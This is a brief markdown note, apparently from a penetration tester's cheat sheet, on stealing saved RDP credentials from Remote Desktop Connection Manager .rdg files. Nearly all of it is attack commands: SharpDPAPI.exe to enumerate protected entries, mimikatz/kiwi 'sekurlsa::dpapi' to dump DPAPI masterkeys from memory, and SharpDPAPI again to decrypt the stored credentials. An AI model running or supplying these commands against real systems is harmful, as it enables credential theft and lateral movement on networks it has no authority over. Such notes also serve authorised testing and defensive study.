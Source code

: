 # Via RDP 
- Find the .rdg file in system
- Use SharpDPAPI.exe
- Things to note
  - Need masterkey and sha
  - Gather from kiwi or mimitkaz

- Enumerate GUID
```
SharpDPAPI.exe rdg /unprotected
```
- Find and Dump GUID Masterkey with kiwi
```
kiwi_cmd sekurlsa::dpapi
```
- Utlize the GUID and Masterkey to gain Credentials
```
SharpDPAPI.exe rdg GUID:sha(masterkey)
```
